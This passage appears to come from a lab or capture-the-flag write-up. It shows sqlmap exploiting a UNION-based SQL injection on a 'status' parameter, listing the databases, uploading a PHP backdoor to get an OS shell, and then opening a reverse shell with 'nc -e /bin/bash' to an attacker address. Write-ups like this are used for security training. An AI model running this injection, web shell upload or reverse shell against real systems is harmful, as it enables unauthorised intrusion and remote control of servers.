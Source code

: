 ```bash
    Title: Generic UNION query (NULL) - 9 columns
    Payload: status=Delivered' UNION ALL SELECT CONCAT(0x7171706271,0x4d744d494f585659785950544c6e6a644a496e496d77477964574d524e414962647a534b72425771,0x716a627871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[21:54:25] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.22.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:54:26] [INFO] fetching database names
available databases [5]:
[*] foms
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```
I already know that the application is created with PHP, those apps are mostly vulnerable to a webshell upload through SQLi, so I executed this command to get a non-interactive shell:
```bash
sqlmap -r req1 --os-shell     

[21:54:32] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[21:54:41] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[21:54:45] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[21:54:46] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[21:54:47] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[21:54:48] [INFO] trying to upload the file stager on '/var/www/html/' via UNION method
[21:54:49] [INFO] the remote file '/var/www/html/tmpuraph.php' is larger (713 B) than the local file '/tmp/sqlmap47rqaggu746046/tmpi6pn9v_w' (705B)
[21:54:50] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.0.14.39:80/tmpuraph.php
[21:54:50] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.0.14.39:80/tmpbacyt.php
[21:54:50] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
```
Now we have a non-interactive shell with sqlmap, then I proceed to get a full interactive shell by running `nc -e /bin/bash 10.10.5.122 1234` command.
